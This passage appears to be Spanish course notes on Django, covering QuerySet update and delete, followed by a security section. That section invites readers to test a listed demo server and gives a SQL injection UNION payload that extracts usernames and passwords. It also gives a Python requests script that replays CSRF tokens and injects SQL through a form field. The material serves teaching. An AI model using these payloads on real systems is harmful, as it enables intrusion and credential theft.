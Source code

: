 Actualizando multiples objetos

A veces deseamos establecer un campo en un valor particular para todos los objetos en un QuerySet. Para esto usamo el método update().

Por ejemplo actualicemos la fecha de modificación de todos los contactos del año 2020:

`Contact.objects.filter(pub_date__year=2020).update(mod_date=date.today())`


## Delete

El método de eliminación es delete(). Este método elimina inmediatamente el objeto y devuelve la cantidad de objetos eliminados y un diccionario con la cantidad de eliminaciones por tipo de objeto.

`Contact.objects.filter(name='Silvina').delete()`


# Seguridad

Excelente curso gratuito: https://portswigger.net/web-security

Mas informacion sobre Django y seguridad: https://developer.mozilla.org/en-US/docs/Learn/Server-side/Django/web_application_security

Probemos algunas cosas en [este](http://ec2-34-227-58-4.compute-1.amazonaws.com:8000/) servidor:


## SQL injection

```
3"  UNION SELECT username, password,NULL, NULL,NULL FROM auth_user --
``` 


##  CSRF

```python
import requests
url='http://127.0.0.1:8000/about/'
data = {
'csrfmiddlewaretoken': 'ch0vTWQCrww59Qupz59SdM31u2dc0QopYDt36RhQmuNWgtFvnCGbxZb3OyMukBI7', 
       'pr_id': '2'
}

cookies = {
    'csrftoken': 'SMgTVpoWKT58wXuG6zwPp4gm5kj5vZ1hE8Jr8kPaFRmZDAFMU638JhoopQSnPKlZ',
}
response=requests.post(url, data=data , cookies=cookies)
response.content
```

Ejecutemos el requests post inyectando SQL

```python
data2 = {
'csrfmiddlewaretoken': 'ch0vTWQCrww59Qupz59SdM31u2dc0QopYDt36RhQmuNWgtFvnCGbxZb3OyMukBI7', 
       'pr_id': '2"  UNION SELECT user, password,NULL FROM LOGINS --'
}

response=requests.post(url, data=data2, cookies=cookies)
response.content
```
